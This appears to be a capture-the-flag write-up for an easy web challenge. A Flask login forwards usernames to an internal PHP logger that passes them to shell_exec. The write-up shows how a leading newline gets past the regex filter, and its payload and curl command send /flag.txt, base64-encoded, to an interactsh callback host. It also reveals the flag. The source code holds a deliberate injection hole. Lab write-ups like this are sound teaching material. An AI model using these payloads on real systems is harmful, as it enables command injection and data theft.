

# New Way

**Difficulty:** Easy
**Category:** Web
**Source Code:** Available
**Author:** 0utc4st
**Description:** In life, we choose our own paths, don't let others do that for you.

## Source Code

- public app
```python
from flask import Flask, url_for, render_template, request, redirect, session
from flask_sqlalchemy import SQLAlchemy
import requests
from base64 import *

app = Flask(__name__)
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///users.db'
db = SQLAlchemy(app)


class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(100), unique=True)
    password = db.Column(db.String(100))

    def __init__(self, username, password):
        self.username = username
        self.password = password


@app.route('/', methods=['GET'])
def index():
    if session.get('logged_in'):
        return render_template('home.html')
    else:
        return render_template('index.html', message="Hello!")


@app.route('/register/', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        try:
            db.session.add(User(username=request.form['username'], password=request.form['password']))
            db.session.commit()
            return redirect(url_for('login'))
        except:
            return render_template('index.html', message="User Already Exists")
    else:
        return render_template('register.html')


@app.route('/login/', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    else:
        u = request.form['username']
        p = request.form['password']
        data = User.query.filter_by(username=u, password=p).first()
        if data is not None:
            session['logged_in'] = True
            u=b64encode(bytes(u.encode('utf-8'))).decode('ascii')
            print(f"TTTTHHHHHHIIIIIISSSS ======>> {u}")
            #requests.post("http://php_app/index.php",data=f"user={u}&status=Successful")
            requests.get(f"http://php_app/index.php?user={u}&status=Successful")
            return redirect(url_for('index'))
        u=b64encode(bytes(u.encode('utf-8'))).decode('ascii')
        print(f"TTTTHHHHHHIIIIIISSSS ======>> {u}")
        #requests.post("http://php_app/index.php",data=f"user={u}&status=Unsuccessful")
        requests.get(f"http://php_app/index.php?user={u}&status=Successful")
        return render_template('index.html', message="Incorrect Details")


@app.route('/logout', methods=['GET', 'POST'])
def logout():
    session['logged_in'] = False
    return redirect(url_for('index'))

def init_db():
    with app.app_context():
        db.create_all()

if __name__ == '__main__':
    app.secret_key = "ThisIsNotASecret:p"
    init_db()
    app.run(host='0.0.0.0')
```

- private app

```php
<?php
$user = $_GET['user'] ?? '';
$status = $_GET['status'] ?? '';
$user = base64_decode($user);
if (!empty($user) && !empty($status)) {
    if(preg_match("/^.*[;()$|&]/", $user,$match)){
        echo "No No hacker not this time.";
    } else {
    $date = date('Y-m-d H:i:s');
    $command = "echo \"[+] Auth Attempt $date $user $status\" >> app_log";
    shell_exec($command);
    echo "Log entry added successfully.";
    }
} else {
    echo "Please provide both user and status parameters.";
}
?>
```

## Solution

let's start with the public app, it seems like a regular `flask` app that performs basic functionalities like user registration and authentication, nothing vulnerable there.

we move the private app, which is a `PHP` application that accepts 2 `GET` parameters: `user` and `status`, then performs some filtering, then runs a shell command which includes the content of the parameter `user` which hints for a potential command injection.

since this is a private app, wa can't talk directly to it, but we notice that when we try to authenticate in the flask app, the app sends our `username` and the relevant status to that private app.

this means we controle the value of the parameter `user` that `PHP` app receives, which is the same value that gets passed to the shell command.

but we see that the value is filtered with the `preg_match()` function :
```php
if(preg_match("/^.*[;()$|&]/", $user,$match)){
        echo "No No hacker not this time.";
    }
```

this means if our user containes any of these characters `;()$|&` which are essential characters to perform command injection,  the code stops execution.

BUT, this `preg_match()` function in this case can be bypassed with the `new line` character, in other words, any thing that comes after the `new line` won't get filtered cause in this case the `preg_match()` function only checking one line.

so now we can try to authenticate with a username that holds this value :

```bash
\n$(COMMAND)
```

with this we will have blind command execution, so to retrieve the flag we need to think of a trick.

one way to receive the flag without getting a shell is sending the content of the flag in a get request to a server that we control.

we can use [interactsh](https://app.interactsh.com/#/) for that, we get a url that we can use, any interaction with that URL will appear in the dashboard.

with this we can request that URL with content of the flag (encoded in base64) using this payload as the username :

```bash
\n$(curl http://URL?flag=$(base64 -w 0 /flag.txt))
```

let's try that :

```plaintext
└─$ curl http://127.0.0.1:5000/login/ -X POST -d 'username=%0a$(curl+http://ljtcekwezjmnyjemupubxr4igraqk4oh1.oast.fun?flag=$(base64+-w+0+/flag.txt))&password=test'
```

after executing that, we immediately get a request to our interactsh web client :



we got the content of the flag in base64, let's decode that :

```plaintext
└─$ echo 'bmV4dXN7NHNfVEgzeV9TNHlfX19OM3dfTDFuM19OM3dfVzR5fQ==' | base64 -d
nexus{4s_TH3y_S4y___N3w_L1n3_N3w_W4y}
```

and we have the flag!

## Flag

`nexus{4s_TH3y_S4y___N3w_L1n3_N3w_W4y}`
